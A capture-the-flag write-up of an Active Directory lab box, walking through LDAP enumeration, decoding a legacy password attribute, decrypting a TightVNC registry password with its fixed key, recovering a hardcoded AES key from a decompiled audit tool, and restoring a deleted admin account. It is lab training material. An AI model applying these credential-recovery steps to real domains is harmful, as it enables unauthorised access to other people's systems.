This box is rated medium difficulty on THM. It involves us enumerating LDAP to find that a user's account contains a legacy password attribute that we can use to authenticate with. Then, by discovering a registry file for the VNC configuration, we can decrypt the password within and get a login as a low-level user. After that, decompiling an audit executable and AES decrypting another password gives us access to a service account. This account has privileges to the AD Recycle Bin which contains a deleted user that shares its password with the administrator; By recovering properties from that deleted account, we grab the password for admin and can WinRM onto the box.

## Scanning & Enumeration
I begin with an Nmap scan against the target IP to find all running services on the host. Repeating the same for UDP only shows the typical AD ports

```
$ sudo nmap -sCV -Pn 10.129.10.82 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-16 22:44 CST
Nmap scan report for 10.129.10.82
Host is up (0.057s latency).
Not shown: 985 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-17 04:44:57Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
|_clock-skew: -2s
| smb2-time: 
|   date: 2026-02-17T04:45:48
|_  start_date: 2026-02-17T04:41:30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.19 seconds
```

Looks like we're dealing with a Windows machine with Active Directory components installed. LDAP is leaking the domain name of `cascade.local`, so I add that to my `/etc/hosts` file. Although a few ports are running HTTPAPI and RPC over HTTP, there is no actual web server. Here, I'll mainly be focusing on SMB, LDAP, and Kerberos before any crazy misconfiguration enumeration. 

Using Netexec to test for Guest authentication over SMB shows that it has been disabled, so we're going to need credentials in order to peek at shares or brute force users via RID.



Kerberos won't likely yield too much without usernames to test for things like pre-auth, so I move to enumerating LDAP in-depth. Another thing to note is that SMB gives us the FQDN of `CASC-DC1.cascade.local`, so that can go in our hosts file as well.

Quickly testing for anonymous connection over RPC shows we're able to gather a list of users on the domain.



## LDAP Enum
That's pretty nice to have, however before jumping to any brute force attempts or Kerberos techniques, I want to validate if other ports allow for anon login as well. Testing LDAP for anonymous binds shows that we're able to get the naming contexts for the system.

```
$ ldapsearch -x -H ldap://cascade.local -s base namingContexts
```



Next, I want to find all object classes to find anything interesting to look through. Saving this to a text file makes parsing the output much easier with grep or vi reverse search.

```
$ ldapsearch -x -H ldap://cascade.local -b "dc=cascade,dc=local" "(objectClass=*)" > objclass.txt
```



There's an object class for users on the system, let's take a look at that for anything that could be of use.

```
$ ldapsearch -x -H ldap://cascade.local -b "dc=cascade,dc=local" -LLL "(objectClass=user)"

...

dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Ryan Thompson
sn: Thompson
givenName: Ryan
distinguishedName: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
instanceType: 4
whenCreated: 20200109193126.0Z
whenChanged: 20200323112031.0Z
displayName: Ryan Thompson
uSNCreated: 24610
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
uSNChanged: 295010
name: Ryan Thompson
objectGUID:: LfpD6qngUkupEy9bFXBBjA==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 132247339091081169
lastLogoff: 0
lastLogon: 132247339125713230
pwdLastSet: 132230718862636251
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=

...
```

## SMB Enum
There was a lot of typical data from most of the users, however I spotted a `cascadeLegacyPwd` attribute for Ryan Thompson's account. It also shows that his account has only been used to logon twice (first for creation and second for some other reason). That string looks Base64 encoded, so let's get the plaintext version and try to authenticate with those credentials over SMB.



That works and I discover a non-standard share named `Data` that we have read permissions for. There's also an `Audit$` share which we don't have access to right now, but I'll keep this in mind as it may hold sensitive system information. Using SMBclient to enumerate the Data share, we see directories segmented for each department.



Inside are a few files, the first being a log under the IT dept for the `ArkSvc` account's recycle bin. This file shows that an user named TempAdmin has been deleted and therefore moved to the AD Recycle Bin.

```
$ cat ArkAdRecycleBin.log 
1/10/2018 15:43 [MAIN_THREAD] ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
1/10/2018 15:43 [MAIN_THREAD] Validating settings...
1/10/2018 15:43 [MAIN_THREAD] Error: Access is denied
1/10/2018 15:43 [MAIN_THREAD] Exiting with error code 5
2/10/2018 15:56 [MAIN_THREAD] ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
2/10/2018 15:56 [MAIN_THREAD] Validating settings...
2/10/2018 15:56 [MAIN_THREAD] Running as user CASCADE\ArkSvc
2/10/2018 15:56 [MAIN_THREAD] Moving object to AD recycle bin CN=Test,OU=Users,OU=UK,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD] Successfully moved object. New location CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD] Exiting with error code 0 
8/12/2018 12:22 [MAIN_THREAD] ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
8/12/2018 12:22 [MAIN_THREAD] Validating settings...
8/12/2018 12:22 [MAIN_THREAD] Running as user CASCADE\ArkSvc
8/12/2018 12:22 [MAIN_THREAD] Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD] Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD] Exiting with error code 0
The second is an HTML file containing meeting notes; The message talks about a new production network going live and that a temporary account will be used for migration. Conveniently, the TempAdmin account shares its password with the normal admin.
```



If we're able to find that password, perhaps we can WinRM onto the box as administrator. 

## Getting password from VNC Registry
Next, I find the registry file for the VNC install in hopes to grab any valuable secrets. This is located under the IT dept's Temp files for the s.smith user.

```
$ cat VNC\ Install.reg

��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
"QueryAcceptOnTimeout"=dword:00000000
"LocalInputPriorityTimeout"=dword:00000003
"LocalInputPriority"=dword:00000000
"BlockRemoteInput"=dword:00000000
"BlockLocalInput"=dword:00000000
"IpAccessControl"=""
"RfbPort"=dword:0000170c
"HttpPort"=dword:000016a8
"DisconnectAction"=dword:00000000
"AcceptRfbConnections"=dword:00000001
"UseVncAuthentication"=dword:00000001
"UseControlAuthentication"=dword:00000000
"RepeatControlAuthentication"=dword:00000000
"LoopbackOnly"=dword:00000000
"AcceptHttpConnections"=dword:00000001
"LogLevel"=dword:00000000
"EnableFileTransfers"=dword:00000001
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""
```

This file discloses that the server being used is TightVNC and that an encrypted password is being used (ie. Password field). A bit of researching on this VNC implementation led me to this [Github repo](https://github.com/frizb/PasswordDecrypts), explaining that we can recover the password by using fixed key inside of Metasploit's IRB module to spawn a Ruby shell.

This is just an easy way of decrypting the Hex encoded password without having to use a Windows util. Referring to the repo, it seems the fixed key is `\x17\x52\x6b\x06\x23\x4e\x58\x07`, so let's run a few commands to extract it.

```
msf > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\x17Rk\x06#NX\a"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
=> "[REDACTED]"
```

Since this was under s.smith's Temp files, we're able to grab a shell on his account via Evil-WinRM using those creds.



## Privilege Escalation
At this point we can grab the user flag under Steve's Desktop directory and start looking at ways to escalate privileges to administrator. I figured that since Steve was the one doing the network migration, he'll probably have higher privileges than others and may be able to access that `Audit$` share from earlier.



### ArkSvc's password from Audit Share
We do indeed have read permissions on it, so let's dump the directory and see about finding anything of use. This share holds files pertaining to internal audits, which includes an Audit database. Among the others is a RunAudit batch file that uses the executable and takes in this DB file as an argument.

```
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
```



Using sqlite3 to dump the database reveals a password for the `ArkSvc` account inside of the Ldap table. 



It seemed like Base64 encoding, however decoding the string doesn't give us anything particularly useful. I move on to grabbing the CascAudit.exe file in order to figure out what that's doing. It was a bit of a pain, but I transferred that to my Windows machine and used [dnSpy](https://github.com/dnSpy/dnSpy) to decompile the code.

We can see that under the `MainModule` section, the program takes the encoded password from that `Audit.DB` file and then decrypts it using a hardcoded string.



Ok, we know what the key to decrypt the password is, now we just need to find out what operation is being used on it. In order to do so, I repeat the previous steps for the `CascCrypto.dll` file to gather the other parameters needed for the `DecryptString` function to run.



Looks like it's using AES in the CBC cipher mode as the method to encrypt passwords. We can use CyberChef to reverse this process along with the key gathered from the executable to get the plaintext version. The correct recipe is `From Base64` -> `AES Decrypt (Key= c4scadek3y654321, IV= 1tdyjCbY1Ix49842, Mode= CBC)`.



### TempAdmin password in AD Recycle Bin
Using that to authenticate over SMB once again verifies that this password is valid and can be used with Evil-WinRM to grab a shell as the `ArkSvc` user. Checking our account privileges shows that we are apart of the AD Recycle Bin group and can recover the `TempAdmin` account mentioned in the meeting notes.



I do this with a Powershell command to find all properties for this account and I see that this user also had the cascadeLegacyPwd set to an encoded string.

```
*Evil-WinRM* PS C:\Users\arksvc\Desktop> Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects" -and samaccountname -eq "TempAdmin"' -includeDeletedObjects -property *

accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : [REDACTED]
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```

Decoding that gives us the password for the `TempAdmin` account, therefore also for the normal administrator as they shared credentials during the network migration process.



Finally grabbing a shell via Evil-WinRM once again rewards us with the root flag under their Desktop folder which completes this box. 



That's all y'all, this box was nice because LDAP anonymous binds aren't seen too often and the route to recovering the deleted account was unique. I hope this was helpful to anyone following along or stuck and happy hacking!
